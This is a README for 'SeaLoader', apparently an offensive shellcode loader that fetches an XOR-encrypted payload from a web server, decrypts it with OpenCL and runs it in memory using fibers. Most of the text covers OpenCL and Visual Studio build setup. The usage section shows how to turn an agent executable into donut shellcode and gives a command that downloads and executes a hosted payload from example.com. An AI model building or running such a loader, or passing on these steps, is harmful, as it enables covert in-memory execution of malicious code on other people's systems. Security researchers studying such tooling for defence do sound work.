 # SeaLoader
Shellcode loader that downloads and decrypts an XOR encrypted using OpenCL, then launches it with fibers. For a deeper dive, see the blog post here:

# General instructions for setting up a visual studio project to compile OpenCL
## 1. Install OpenCL SDK / Drivers

OpenCL is not part of Visual Studio itself. You need vendor-specific OpenCL runtime + headers.

* **NVIDIA GPU** → Install the [CUDA Toolkit](https://developer.nvidia.com/cuda-downloads). It includes `OpenCL.dll`, headers, and ICD loader.
* **AMD GPU** → Install the [AMD APP SDK](https://github.com/GPUOpen-LibrariesAndSDKs) (legacy) or [ROCm](Linux) / Windows drivers with OpenCL runtime.
* **Intel GPU / CPU** → Install [Intel OpenCL SDK](https://www.intel.com/content/www/us/en/developer/tools/opencl-sdk/overview.html).

Alternately if you're running this in a VM you can use POCL, which you can get here:

[POCL](https://portablecl.org/)

Grab the SDK here:

[OpenCL-SDK](https://github.com/KhronosGroup/OpenCL-SDK)

After installation, you should have:
* `OpenCL.lib` (import library)
* `OpenCL.dll` (runtime, usually in `C:\Windows\System32`)
* `CL/cl.h` and `CL/opencl.hpp` (headers for C and C++)

---

## 2. Set Up Visual Studio Project
1. Open **Visual Studio** → **Create a new Project** → choose **Console App (C++).**
2. Right-click your project → **Properties**.

### Include directories
* Go to **C/C++ → General → Additional Include Directories**
* Add the path to OpenCL headers, e.g.:
  ```
  C:\Program Files (x86)\Intel\OpenCL SDK\include
  ```

  or
  ```
  C:\Program Files\NVIDIA GPU Computing Toolkit\CUDA\v12.x\include
  ```

### Library directories
* Go to **Linker → General → Additional Library Directories**
* Add path to libraries, e.g.:
  ```
  C:\Program Files (x86)\Intel\OpenCL SDK\lib\x64
  ```

### Link against OpenCL
* Go to **Linker → Input → Additional Dependencies**
* Add:
  ```
  OpenCL.lib
  ```

From here you should be able to compile the program.

### Donuts
The donut generator python script requires donut shellcode: https://github.com/TheWover/donut
```
pip install donut-shellcode
```
The loader should work with any shellcode though, not only donut.

# Usage:
Create your payload
```
python donutGenerator.py -i agent.exe -x "HelloWorld"
```
Host the file on a web server and use the loader to download into memory and execute
```
.\SeaLoader.exe /p:http://example.com/payload.bin /x:HelloWorld
```

